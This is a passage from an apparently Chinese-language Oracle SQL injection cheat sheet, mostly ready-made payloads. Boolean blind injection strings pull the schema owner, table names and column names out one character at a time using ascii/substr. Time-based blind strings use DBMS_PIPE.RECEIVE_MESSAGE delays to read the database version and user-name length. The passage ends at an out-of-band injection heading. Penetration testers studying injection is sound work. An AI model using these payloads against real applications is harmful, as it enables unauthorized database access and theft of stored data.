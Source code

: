 ```
#ascii为83 S
id=1 and (select ascii(substr((select owner from all_tables where rownum=1),2,1)) from dual)=89--
#ascii为89 Y
id=1 and (select ascii(substr((select owner from all_tables where rownum=1),3,1)) from dual)=83--
#ascii为83 S

**4.获取表名** 
id=1 and (select ascii(substr((select table_name from user_tables where rownum=1),1,1)) from dual)=105-- 第一个表名的第一个字符是i
id=1 and (select ascii(substr((select table_name from user_tables where rownum=1),2,1)) from dual)=99-- 第一个表名的第二个字符是c

**5.获取字段名** 
id=1 and (select ascii(substr((select column_name from user_tab_columns where rownum=1 and table_name='icq'),1,1)) from dual)=117-- icq表内的第一个字段的第一个字符u
id=1 and (select ascii(substr((select column_name from user_tab_columns where rownum=1 and table_name='icq'),2,1)) from dual)=115-- icq表内的第一个字段的第二个字符s
```

### time 盲注

> **time盲注相关函数**

- **DBMS_PIPE.RECEIVE_MESSAGE()** ** 函数**
- **用法** ：DBMS_PIPE.RECEIVE_MESSAGE(**'** **任意值** **',** **延迟时间** )
- **举例** ：DBMS_PIPE.RECEIVE_MESSAGE('ICQ',5) 表示从ICQ管道返回的数据需要等待5秒
- **payload** ：

```
and DBMS_PIPE.RECEIVE_MESSAGE('ICQ',5)=1
```

> **常用payload**

```
id=1 and dbms_pipe.receive_message((), 5)=1
id=1 and (select decode(substr((select banner from sys.v_$version where rownum=1),1,1),'O', dbms_pipe.receive_message('ICQ', 5),0) from dual)=1--
截取数据库版本第一个字符为O就延时5s
id=1 and (select decode(length(user),4,dbms_pipe.receive_message('ICQ', 5),0) from dual)=1--
用户名长度为4 就延时5s
```

## 带外注入

